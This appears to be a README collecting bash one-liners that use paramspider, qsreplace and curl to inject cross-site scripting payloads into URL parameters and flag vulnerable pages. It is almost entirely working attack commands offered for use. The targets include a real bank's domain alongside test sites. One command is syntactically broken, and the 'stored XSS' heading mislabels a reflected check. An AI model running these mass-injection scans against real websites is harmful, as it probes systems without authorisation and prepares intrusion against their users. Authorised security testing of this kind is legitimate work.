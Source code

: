 
## XSS Detection with Paramspider

### Command 1:

```
paramspider -d test.com | tee yy.json | qsreplace '><script>confirm(1)</script>' | while read host; do (curl --silent --path-as-is --insecure "$host" | grep -qs "<script>confirm(1)") && echo "" && echo "$host" | \033[0;31mVulnerable\n" || echo "$host \033[0;32mNot Vulnerable\n"; done
```

### Command 2:

```bash
paramspider -d test.com --placeholder '"><script>confirm(0)</scripT>'
```

### Command 3:

```bash
cat axisbank.com.txt | while read host; do (curl --silent --path-as-is --insecure "$host" | grep -qs "<script>confirm(1)") && echo -e "\033[0;31mVulnerable\033[0m $host" || echo -e "\033[0;32mNot Vulnerable\033[0m $host"; done
```

### Command 4:

```bash
while read -r domain; do paramspider -d "$domain" --placeholder '"><script>confirm(0)</scripT>'; done < domains.txt
```

## Notification Sender

### Command 1:

```bash
cat test.com.txt | while read host; do (curl --silent --path-as-is --insecure "$host" | grep -qs '"><script>confirm(0)</scripT>') && { echo -e "\033[0;31mVulnerable\033[0m $host" && notify-send "Vulnerable Link" "URL: $host"; } || echo -e "\033[0;32mNot Vulnerable\033[0m $host"; done
```

### Xss finder and Direct webiste  opener where xss is :

```bash
cat testphp.vulnweb.com.txt | while read host; do (curl --silent --path-as-is --insecure "$host" | grep -qs '"><script>confirm(0)</scripT>') && { echo -e "\033[0;31mVulnerable\033[0m $host" && notify-send "Vulnerable Link" "URL: $host" && xdg-open "$host"; } || echo -e "\033[0;32mNot Vulnerable\033[0m $host"; done
```

## Stored XSS Detection

### Command 7:

```bash
cat testphp.vulnweb.com.txt | while read host; do (curl --silent --path-as-is --insecure "$host" | grep -qs '"><img/src/onerror=prompt(0)>' && echo -e "\033[0;31mVulnerable\033[0m $host" && xdg-open "$host") || echo -e "\033[0;32mNot Vulnerable\033[0m $host"; done
```
```

